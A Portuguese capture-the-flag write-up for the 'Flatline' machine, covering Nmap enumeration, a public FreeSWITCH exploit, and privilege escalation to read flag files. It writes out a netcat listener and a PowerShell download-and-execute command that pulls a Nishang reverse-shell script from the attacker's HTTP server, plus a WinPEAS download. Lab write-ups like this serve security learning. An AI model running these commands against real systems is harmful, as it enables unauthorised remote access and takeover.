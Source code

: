 # _**Flatline CTF**_
![](flat.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um serviço RDP, **ms-wbt-server** na porta 3389  
Vamos utilizar novamente o Nmap para tentar encontrar vulnerabilidades  
> ```bash
> nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -Pn -T4 [ip_adress]
> ```
![](nmap_script.jpg)

Apesar de termos retorno, nenhuma informação é relevante
Após buscar por CVEs e exploits disponíveis, nada foi encontrado  
Foi decidido então buscar pelo outro serviço disponível: FreeSWITCH

![](searchsploit.jpg)  

Encontramos!  
Vamos realizar download do arquivo em [exploit-db](https://www.exploit-db.com/exploits/47799)  
Copiamos o conteúdo para um arquivo _.py_ e verificamos como podemos executar  
Precisamos do endereço IP e um comando CMD, vamos testar _whoami_  

![](exploit_result.jpg)  

Funcionou!  
Vamos tentar obter um _reverse shell_  
Primeiro, vamos realizar o download de <mark>Nishang</mark> com ```sudo apt install```  
Nishang é uma coleção de scripts e payloads em PowerShell usados principalmente para _pentesting_ e _post-exploitation_ em ambientes Windows  
Agora, copiamos um dos arquivos para nosso diretório com ```cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 [current_dir]/shell.ps1```  
No código, adicionamos a seguinte linha no final: ```Invoke-PowerShellTcp -Reverse -IPAddress [ip_address] -Port [port]```  
Por fim, executamos esses comandos:
> ```bash
> nc -lnvp [port]
> python3 -m http.server
> python3 exploit.py [ip_address] "cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://[vpn_ip_address]:8000/shell.ps1')"
> ```
![](shell_obt.jpg)

Conseguimos!
## _**Escalando privilégios**_
Para escalarmos privilégios, vamos utilizar a ferramenta <mark>WinPeas</mark>  
> ```bash
> Invoke-WebRequest -Uri http://[ip_address]:8000/winPEASx64.exe -OutFile winpeas.exe
> ```
Em seguida, executamos o binário  
Verificando o resultado, temos que já somos administrador  

![](admin.jpg)  

Tentando acessar o conteúdo das flags, conseguimos _user.txt_, mas não _root.txt_  
Realizando um pouco de pesquisa sobre como dar permissões em um diretório, encontramos [isso](https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows)  
Então, executamos ```takeown /R /F *.*``` e em seguida ```icacls "root.txt" /q /c /t /grant Users:F``` para obtermos o conteúdo da segunda flag!
